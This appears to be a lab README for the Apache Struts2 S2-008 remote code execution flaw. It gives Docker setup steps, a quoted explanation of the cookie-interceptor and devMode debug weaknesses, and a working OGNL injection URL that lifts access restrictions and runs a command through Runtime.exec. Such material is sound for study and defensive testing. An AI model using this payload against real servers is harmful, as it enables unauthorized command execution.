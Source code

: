# S2-008 Remote Code Execution Vulnerability

Impact version: 2.1.0 - 2.3.1

Vulnerability details: http://struts.apache.org/docs/s2-008.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Principle

Reference http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 involves multiple vulnerabilities. Cookie interceptor misconfiguration can cause OGNL expressions to execute, but since most web containers (such as Tomcat) have character restrictions on cookie names, some key characters cannot be used to make this point look awkward. Another point that is more ribbed is that after the struts2 application starts devMode mode, there are multiple debug interfaces that can directly view object information or directly execute commands. As Kxlzx mentions, this situation is almost impossible in the production environment, so it becomes It's very tasteless, but I don't think it's absolute. It's possible to hack a special application that has debug mode enabled on the server as a backdoor.

> For example, adding the parameter directly in devMode mode ?debug=command&expression=<OGNL EXP> will directly execute the following OGNL expression, so you can execute the command directly (note escaping):

```
Http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false% 22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications% 2fCalculator.app%22%29)
```